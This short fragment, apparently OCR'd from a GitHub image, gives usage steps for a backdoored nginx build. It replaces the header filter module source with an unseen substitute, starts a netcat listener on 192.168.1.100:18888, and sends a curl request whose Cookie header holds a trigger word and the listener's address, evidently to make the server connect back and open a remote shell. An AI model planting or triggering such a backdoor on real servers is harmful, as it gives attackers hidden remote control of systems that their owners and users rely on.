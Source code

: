 # download nginx(eg nginx-1.26.1)
# instead of src/http/ngx_http_header_filter_module.c file
# install nginx and start it
# nc -lkp 192.168.1.100 18888
# curl -H "Cookie: 1etmein192.168.1.100:18888" http://localhost
